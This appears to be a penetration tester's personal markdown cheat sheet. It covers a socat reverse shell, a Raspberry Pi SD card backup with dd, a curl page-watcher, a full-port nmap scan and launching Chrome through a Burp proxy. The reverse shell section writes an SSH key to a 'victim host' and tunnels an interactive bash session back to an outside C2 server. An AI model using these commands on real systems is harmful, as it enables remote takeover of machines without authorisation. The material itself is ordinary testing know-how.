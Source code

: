 ```yaml
---
title: Commands Cheat Sheet
lang: en-US
description: A running list of the commands I use frequently, so I can quickly acess them 😀.  Raspberry Pi SD Card Backups, Chrome for Burp and NMAP
date: "2020-06-14"
---
```


# Commands Cheat Sheet
A running list of the commands I use frequently, so I can quickly acess them 😀

## Reverse Shells
Example Server (To be replaced with yours): `rj3.me`
### `socat`

#### Victim Host
```
# Setup machine to connect back to C2
echo "|1|<C2 Host Fingerprint>" > ~/.ssh/known_hosts && chmod 0600 ~/.ssh/known_hosts
RUN echo "<BASE64 SSH key>" | base64 -d > ~/.ssh/id_rsa
RUN chmod 0600 ~/.ssh/id_rsa
ssh -f -N -T -R2203:localhost:9996 username@rj3.me
while true; do
  socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp-listen:9996
done
```
#### Remote Host
```
# Ensure that port 9996 is open
socat file:`tty`,raw,echo=0 tcp:localhost:2203
```


## Mac
### Backup Raspberry Pi SD Card
```bash
diskutil list # Find disk you want to copy
sudo dd if=/dev/rdisk2 bs=1m | gzip > ./tmp/pi_backup.gz # Change the disk number to be the disk to copy
```
### Check for webpage updates
```bash
#!/bin/bash
# Script to use when watching a page for a specific change
URL="https://rj3.me"
TEXT_TO_MATCH="Robert"

while true
do
	curl -v $URL | grep "$TEXT_TO_MATCH" &> /dev/null && osascript -e 'display notification "Matched!"'
    sleep 10
done
```

### Nmap

```bash
nmap -v -o -p 1-65535 #host
```

### Launch Chrome for Burp
Prereq: All Chrome instances need to be fully closed(`cmd+q`) before running this, otherwise the settings won't take.
```bash
/Applications/Google\ Chrome.app/Contents/MacOS/Google\ Chrome --proxy-server=http://localhost:8080 #--ignore-certificate-errors
```
*Note: Ignore certificate errors can be used if you can't install the Burp CA, but it is NOT recommended.*
